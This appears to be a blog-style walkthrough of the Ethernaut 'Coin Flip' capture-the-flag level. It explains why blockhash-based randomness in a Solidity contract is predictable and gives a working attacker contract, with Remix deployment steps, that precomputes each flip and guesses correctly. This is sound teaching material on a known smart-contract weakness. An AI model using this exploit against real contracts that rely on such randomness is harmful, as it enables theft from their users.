

***Coin Flip***

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

Sounds improbable, maybe we can cheat the odds?

Some levels will require working outside of the browser console. That is, writing solidity code and deploying it in the network to attack the level's instance contract with another contract. This can be done in multiple ways, and I prefer to use the Remix Solidity IDE.

**The Contract:**
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

**Learnings:** Solidity can't generate random numbers.


Let's break down some of these terms to identify what we're dealing with.

***block.number*** = the current block. When a transaction is picked up in a particular block, block.number is able to identify the block that this transaction is within. As of 12/17/2022, the block height is currently 16205934.

***blockhash*** = ```blockhash(uint blockNumber) returns (bytes32)```: hash of the given block when blocknumber is one of the 256 most recent blocks; otherwise returns zero

From https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html:

***Do not rely on block.timestamp or blockhash as a source of randomness, unless you know what you are doing.***

Okay, so what if we wrote some code to just calculate this value, then pass it into the contract in the same block? The result would be the same. Here's how we can do that:

1) In remix, copy the CoinFlip contract from earlier and paste it in. This allows us to reference the deployed contract, and allows us to import this contract to interact with.

2) In Ethernaut, copy the instance ID found in **help()**, and paste that into the 'Deploy and Run Transactions' tab in remix. Be sure to change the environment to injected provider, as the instance deployed on ethernaut is on the real testnet! Click the blue 'at address' button to automatically have remix pull this contract up for you.

3) Create a new contract that'll be used to calculate the coinflip just before calling the coinflip contract. Below is the code I used:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'coinflip.sol';

contract CoinFlipGuess {
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function guess(address _target) public{
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

        CoinFlip(_target).flip(side);
    }
}
```

The import statement at the top allows this contract to call the coinflip contract with the last line here. We can call \<contractName>(\<parameters>).\<contractFunction>(\<parameters>)

Deploy that, and we're ready to go!

Notice on the left that I've already called the guess function 3 times and successfully calculated the coin flip each time:



Now you can just spam the guess function until you get up to 10. Notice, some transactions may revert, but that's not an issue. Reverting just means the entire transaction was undone, it won't ruin your streak!

Congrats! Once you rack up to 10, submit the instance for the win!